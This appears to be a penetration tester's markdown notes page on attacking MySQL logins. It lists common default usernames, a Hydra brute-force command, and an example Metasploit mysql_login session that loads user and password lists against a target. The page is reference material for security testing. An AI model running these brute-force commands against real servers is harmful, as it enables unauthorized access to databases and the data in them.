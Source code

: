 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/MySQL/Exploitation
---
```


# Exploitation

> [!todo]

## Credentials

### Common Credentials

Enumerate with [[Enumeration#Nmap|]] for common credentials
(e.g.  `admin`, `administrator`, `root`, `user`, `test`, etc.)

```sh
mysql -u <username> -p
```

### Brute Force

Brute force credentials with [[Hydra]]

```sh
hydra -L <users.txt> -P <passwords.txt> -f [-S port] mysql://<target>
```

Brute force credentials with [[Metasploit]]'s MySQL Login Utility
([mysql_login](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_login/))

```sh
use auxiliary/scanner/mysql/mysql_login
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> msf > use auxiliary/scanner/mysql/mysql_login
> msf auxiliary(mysql_login) > show actions
>     ...actions...
> msf auxiliary(mysql_login) > set ACTION < action-name >
> msf auxiliary(mysql_login) > show options
>     ...show and set options...
> msf auxiliary(mysql_login) > run
> ```
>
> ```sh
> use auxiliary/scanner/mysql/mysql_login
> msf auxiliary(scanner/mysql/mysql_login) > set rhosts X.X.X.X
> msf auxiliary(scanner/mysql/mysql_login) > set user_file /path/to/user.txt
> msf auxiliary(scanner/mysql/mysql_login) > set pass_file /path/to/pass.txt
> msf auxiliary(scanner/mysql/mysql_login) > set stop_on_success true
> msf auxiliary(scanner/mysql/mysql_login) > exploit
> ```
<!-- }}} -->
